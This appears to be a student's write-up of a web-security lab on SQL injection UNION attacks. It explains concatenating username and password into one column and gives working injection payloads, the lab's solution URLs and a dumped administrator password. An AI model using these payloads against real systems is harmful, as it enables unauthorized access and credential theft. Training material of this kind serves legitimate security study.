


# Retrieving multiple values within a single column

- There exists some case where retrieving interesting data session may only return a single column. 
- **To solve** this issue we can retrieve multiple values within a single column by concatenating the values together. One can include a separator to distinguish between the values. 
- Taking an **example** of Oracle database, the `||` operator is used to concatenate strings. The following payload can be used.
```
' UNION SELECT username || '~' || password FROM users--
```
- The `username` and `password` fields is seperated by `~` character.
- The **result** looks like 
```
username~password
admin~admin
test~testpassword
```

# Lab: SQL injection UNION attack, retrieving multiple values in a single column
- **Seneario** : Lab contains the vulnerability in the product category filter. The result are returned in the application response so you can use a UNION attack to retrieve data from other tables.
- **Given** : The lab's database contains a different table called `users` with columns `username` and `password`.
- **To Solve** : Perform a SQL injection UNION attack to retrieve the username and password, and use the information to log in as the administrator.

# Solution
1. Determine the number of columns required to perform the attack using the previous null steps.
2. Find the data type of each column. Where in this case 
```
?category=Gifts' UNION SELECT null, 'a'-- 
```
3. Use the `UNION` attack to retrieve the `username` and `password` of all users. Can be tested using burp using the payload for the SQLi payload.
```
?category=Gifts' UNION SELECT null,username || '~' || password FROM users--
```
As we find null to be also a data type present so using the above payload we can retrieve the `username` and `password` of all users.

- Change the URL to the above payload in the browser and retrieve the username and password.

`
administrator~b819at8nlrlb3jcewjq5
`
- Copy the password and move to my account section and paste the password along with username `administrator` and login.
- The lab will be solved after the above step.
